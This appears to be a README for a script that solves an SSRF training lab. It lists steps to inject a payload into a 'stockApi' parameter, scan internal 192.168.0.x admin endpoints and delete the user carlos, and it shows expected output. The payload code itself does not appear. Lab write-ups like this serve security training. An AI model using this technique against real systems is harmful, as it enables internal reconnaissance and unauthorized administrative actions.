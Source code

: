 # Hack Steps

1. Inject payload into 'stockApi' parameter to scan the internal network
2. Delete carlos from the admin interface

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
⟪#⟫ Injection point: stockApi
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.15:8080/admin)..
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.120:8080/admin)..
                            ....................
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.218:8080/admin).. OK
⦗2⦘ Deleting carlos from the admin interface.. OK
🗹 The lab should be marked now as solved
```
